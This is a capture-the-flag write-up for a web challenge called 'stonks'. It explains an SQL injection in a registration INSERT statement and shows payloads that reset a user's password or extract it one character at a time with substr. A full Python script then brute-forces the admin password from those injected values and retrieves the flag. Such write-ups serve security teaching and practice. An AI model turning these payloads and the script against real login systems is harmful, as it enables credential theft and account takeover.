


# stonks (123 points)
**Description :** *Aaron has a message for the cool kids. For support, DM BrownieInMotion. [cool.mc.ax](https://cool.mc.ax/)*

**Given files :** *[app.py](https://static.redpwn.net/uploads/e03916d52bb7e84cbd2f9f26e5de162fdd0442c40d8397a103aab5813031fd83/app.py)*

### Write-up :

The code on line 49 is vulnerable to an SQL injection attack:
```
	execute(
		'INSERT INTO users (username, password)'
		f'VALUES (\'{username}\', \'{password}\');'
	)
```

`username` must be strictly alphanumeric thanks to the check on line 38 (`if any(c not in allowed_characters for c in username):`), so our payload must go in `password`.

Our payload has a few constraints:
- `password` may be no longer than 50 characters
- `username` must not already exist in the database
- `execute()` will error if passed more than one query, so our attack must use the same `INSERT INTO` query

Let's first take a look at sqlite's `INSERT` syntax:



My first attempt was to try to use an `upsert-clause` to change the password of the ginkoid user, however, the shortest payload I could find to do this was:
```
'),('ginkoid','') ON CONFLICT DO UPDATE SET password='';--
```
which is 8 characters over our limit, which won't do.

I instead decided to go down the route of bruteforcing the password one character at a time.

I wanted to create a new user, whose password was a single character from ginkoid's password. This would allow me to bruteforce only this character. We can see that the values for the password are `expr`s, so let's take a look at the syntax for that:



The parts I am interested in are the `select-stmt`s, as these will let me extract characters from ginkoid's password. This led me to the payload:

```
'||(SELECT substr(password,<index>,1) FROM users));--
```

The `SELECT` statement will take the character at `index` in ginkoid's password, and concatenate it with `''`, to be used as the new user's password. We can then try logging in as our new user with every character in `allowed_characters` as the password. If we login successfully, then we know that we guessed the character correctly. Repeating this for all 32 characters gives us our password.

The full exploit script can be found below:

```py
import requests
import re

s = requests.Session()

def register(username, password):
	req = {'username': username, 'password': password}
	page = s.post('https://cool.mc.ax/register', data=req)

	if 'You are logged in!' not in page.text:
		print(f'failed to register username: {username}')
		print(page.text)
		exit(1)

def logout():
	s.get('https://cool.mc.ax/logout')

def login(username, password):
	logout()
	req = {'username': username, 'password': password}
	page = s.post('https://cool.mc.ax/', data=req)
	return 'You are logged in!' in page.text

def make_username(user):
	username = 'myaccountJ' + str(user)
	return username.replace('0', 'X')

def bruteforce_char(i):
	pswd = f"'||(SELECT substr(password,{i+1},1) FROM users));--"
	register(make_username(i), pswd)

	allowed_characters = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ123456789'
	for c in allowed_characters:
		success = login(make_username(i), c)
		if success:
			print(c)
			return c
	
	print(f"ERROR: UNABLE TO BRUTEFORCE CHARACTER AT INDEX {i}")
	exit(1)

def main():
	computed_pswd = ''

	for i in range(32):
		computed_pswd += bruteforce_char(i)

	print(f"password: {computed_pswd}")

	req = {'username': 'ginkoid', 'password': computed_pswd}
	page = s.post('https://cool.mc.ax/', data=req)
	print(re.findall("flag\{[ -z|~]+\}", page.text)[0])

main()
```